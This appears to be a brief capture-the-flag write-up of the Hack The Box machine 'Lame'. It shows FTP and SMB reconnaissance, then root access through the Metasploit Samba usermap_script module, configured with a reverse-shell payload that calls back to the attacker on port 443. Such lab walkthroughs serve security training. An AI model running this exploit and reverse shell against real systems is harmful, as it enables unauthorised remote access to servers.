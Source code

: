 # Lame



<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Recon

How many of the nmap top 1000 TCP ports are open on the remote host?

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption><p>4 Ports Open</p></figcaption></figure>

i will see the port open FTP - 21 with \
login Anonymous \
and \
Password Anonymous

```bash
ftp 10.10.10.3
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

but can't expliot ftp  come i will try expliot using smb

{% hint style="success" %}
With Passweord Protected OFF
{% endhint %}

```
smbclient -L 10.10.10.3
```

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

```bash
exploit/multi/samba/usermap_script
set payload cmd/unix/reverse
set lhost tun0
set lport 443
```

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Root Flag

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

User Flag

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Exploits Used

**msfconsole**

```
exploit/multi/samba/usermap_script
```

### Tools Used

* Nmap
* smbclient
* nc

